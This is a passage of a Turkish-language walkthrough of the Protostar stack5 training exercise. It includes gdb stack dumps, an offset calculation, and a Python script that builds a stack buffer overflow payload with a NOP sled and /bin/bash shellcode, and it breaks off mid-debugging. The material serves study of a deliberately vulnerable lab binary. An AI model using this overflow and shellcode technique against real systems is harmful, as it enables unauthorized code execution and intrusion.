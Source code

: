 ```bash
(gdb) x/100x $esp
0xbffff760:	0xbffff770	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x43434242	0x45454444	0x47474646	0x49494848
0xbffff7c0:	0x00004a4a	0xbffff864	0xbffff86c	0xb7fe1848
0xbffff7d0:	0xbffff820	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7e0:	0x00000001	0xbffff820	0xb7ff0626	0xb7fffab0
0xbffff7f0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff800:	0xbffff838	0x2315bcc1	0x09424ad1	0x00000000
0xbffff810:	0x00000000	0x00000000	0x00000001	0x08048310
0xbffff820:	0x00000000	0xb7ff6210	0xb7eadb9b	0xb7ffeff4
0xbffff830:	0x00000001	0x08048310	0x00000000	0x08048331
...
(gdb) p 0xbffff7bc - 0xbffff7b0
$1 = 12
```

64 + 12'den sonra `ret`e yazıyoruz. Yapmamız gereken:

`76byte_çöp_değer + shellcode_adresi + shellcode`

Stackte bulunan adresler `çevre değişkenleri` gibi etkenler yüzünden değişeceği için `shellcode_adresi`ni sağlama almak adına kodda herhangi bir etkisi olmayacak belirli bir sayıda `\x90` `NOP(no operation)` instructionu kullanarak işimizi sağlama alabiliriz. Payloadımızın yeni hali:

`76byte_çöp_değer + shellcode_adresi + 100 NOP + shellcode`

```python
# exploit5.py
cop_deger = "A" * 76
shellcode_adresi = "\xEF\xBE\xAD\xDE" # geçici
NOP_sled = "\x90" * 100
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print cop_deger + shellcode_adresi + NOP_sled + shellcode
```

```bash
python exploit5.py > exploit5
```

Shellcode adresini bulalım:

```bash
gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) run < /tmp/exploit5
exploit5     exploit5.py  
(gdb) run < /tmp/exploit5
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit5
```